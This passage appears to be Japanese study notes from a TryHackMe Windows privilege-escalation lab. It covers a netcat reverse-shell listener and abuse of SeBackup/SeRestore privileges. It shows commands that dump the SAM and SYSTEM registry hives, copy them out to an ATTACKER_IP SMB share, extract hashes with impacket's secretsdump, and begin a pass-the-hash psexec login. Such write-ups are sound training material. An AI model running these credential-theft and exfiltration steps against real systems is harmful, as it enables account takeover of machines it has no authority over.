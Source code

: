 - 攻撃側マシンで実行。

```shell
# ペイロード作成とターゲットマシンへのファイルダウンロードは質問1と同じ手順
# ncで待ち受ける
$ nc -lvnp 4445
c:\Windows\System32>    # ターゲットマシンでサービスが再起動されると表示される
```

## Task6 Abusing dangerous privileges

危険な特権の悪用。

### Windows権限

#### 各ユーザに割当てられている権限の確認  

Windowsシステムで利用可能な権限の完全なリストは[こちら](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)。  
悪用狩野な権限の包括的なリストは[Priv2Admin](https://github.com/gtworek/Priv2Admin)で見つかる。

```cmd
whoami /priv
```

### SeBackup / SeRestoreの権限を利用

SeBackupおよびSeRestore権限によりユーザーはシステム内の任意のファイルの読み取り、書き込みができる。

- ターゲットマシンで実行。

```cmd
# 管理者としてコマンドプロンプトを開く
# SeBackupやSeRestoreの権限があるか確認する
whoami /priv

# SAMおよびSYSTEMハッシュをバックアップする
reg save hkml\system C:\Users\THMBackup\system.hive
reg save hkml\sam C:\Users\THMBackup\sam.hive

# この後攻撃マシンでSMB共有を起動してから実施
# ハッシュファイルを攻撃マシンにコピー
C:\> copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
C:\> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```

- 攻撃マシンで実行。

```shell
# impacket の smbser.pyを利用してSMB共有を起動
$ mkdir share
$ python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share

# impacketでユーザーのパスワードハッシュを取得
$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL

# impacketで管理者のハッシュを使用しPass-the-Hash攻撃を実行し、SYSTEM権限でターゲットマシンにアクセス
$ python3.9 /opt/impacket/examples/psexec.py -hashes
```
